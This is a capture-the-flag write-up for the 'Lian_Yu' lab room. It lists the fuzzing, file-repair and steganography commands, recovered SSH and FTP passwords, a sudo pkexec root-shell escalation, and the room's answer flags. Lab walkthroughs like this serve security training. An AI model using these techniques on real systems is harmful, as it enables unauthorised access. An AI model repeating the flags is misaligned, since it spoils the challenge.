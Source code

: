 # Lian_Yu-SSH credentials expose$sudo pkexec privilege escalation

```
export IP=10.10.214.106
```

# Material needed

1. Interesting directory: /island/2100

2. FUZZing file .ticket

```
wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404 http://10.10.191.240/island/2100/FUZZ.ticket

Result: green_arrow.ticket
```

3. Reverse engineering Leave_me_alone.png

```
# check hex number in head file
xxd Leave_me_alone.png | head   

# Add magic number of png
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' | dd conv=notrunc of=Leave_me_alone.png bs=1
```

4. Reverse engineering aa.jpg

```
steghide --extract -sf aa.jpg 
Enter passphrase: password
```

5. SSH credentials

```
slade:M3tahuman
```

6. Privilege escalation

```
sudo /usr/bin/pkexec /bin/sh
```

# Tasks

1. What is the Web Directory you found? 2100

2. what is the file name you found? green_arrow.ticket

3. what is the FTP Password? !#th3h00d 

4. what is the file name with SSH password? shado

5. user.txt

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

6. root.txt

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

